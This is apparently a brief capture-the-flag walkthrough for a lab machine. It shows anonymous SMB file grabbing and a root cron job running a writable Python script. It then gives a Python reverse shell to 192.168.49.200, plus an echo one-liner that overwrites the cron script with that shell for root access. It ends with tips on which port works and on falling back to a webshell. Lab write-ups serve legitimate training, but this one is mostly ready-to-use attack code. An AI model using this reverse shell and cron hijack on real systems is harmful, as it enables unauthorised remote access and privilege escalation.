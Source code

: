 ### SMB since autorecon is super useful this time
```bash
smbclient //$IP/zino -U=anonymous

smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

```
$ ls -lh /usr/sbin/apache2
-rwxr-xr-x 1 root root 672K Oct 15  2019 /usr/sbin/apache2

*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```

```python
import socket,subprocess,os;
import pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.49.200",80));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2); 

pty.spawn("bash");
```

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.200",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /var/www/html/booked/cleanup.py
```

It's a easy box. Just don't get stuck on getting reverse shell with specific ports like 80 or 8003. 21 is the working one.
Simply use it will just work.

Besides, use a webshell when the RCE exploit is not stable enough.